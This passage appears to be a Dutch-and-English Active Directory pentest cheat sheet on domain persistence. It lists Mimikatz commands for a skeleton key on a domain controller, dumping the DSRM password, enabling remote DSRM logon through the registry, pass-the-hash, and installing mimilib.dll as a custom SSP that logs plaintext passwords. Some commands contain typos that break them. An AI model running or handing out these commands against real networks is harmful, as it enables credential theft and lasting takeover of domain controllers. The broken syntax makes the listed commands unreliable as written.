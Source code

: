 https://pentestlab.blog/2018/04/10/skeleton-key/

#### Create the skeleton key - Requires DA
```
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <target>
```

## DSRM
De Directory Services Restore Mode is een boot option waarin een domain controller kan worden opgestart zodat een administrator reparaties of een recovery kan uitvoeren op de active directory database. Dit wachtwoord wordt ingesteld tijdens het installeren van de domain controller en wordt daarna bijna nooit gewijzigd. Door de login behavior aan te passen van dit lokale account is het mogelijk om remote toegang te verkrijgen via dit account, een account waarvan het wachtwoord bijna nooit wijzigd! Pas op, dit tast de security van de domain controller aan!

#### Dump DSRM password - dumps local users
look for the local administrator password
```
Invoke-Mimikatz -Command ‘”token::elevate” “lsadump::sam”’ -Computername <target>
```

#### Change login behavior for the local admin on the DC
```
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
```

#### If property already exists
```
Set-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2
```

#### Pass the hash for local admin
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<computer> /user:Administrator /ntlm:<hash> /run:powershell.exe"'
```

## Custom SSP - Track logons
Het is mogelijk om met een custom Security Support Provider (SSP) alle logons op een computer bij te houden. Een SSP is een DDL. Een SSP is een DLL waarmee een applicatie een geverifieerde verbinding kan verkrijgen. Sommige SSP-pakketten van Microsoft zijn: NTLM, Kerberos, Wdigest, credSSP. 

Mimikatz biedt een aangepaste SSP - mimilib.dll aan. Deze SSP registreert lokale aanmeldingen, serviceaccount- en computeraccountwachtwoorden in platte tekst op de doelserver.

#### Mimilib.dll
Drop mimilib.dll to system32 and add mimilib to HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
SetItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' Value $packages
```
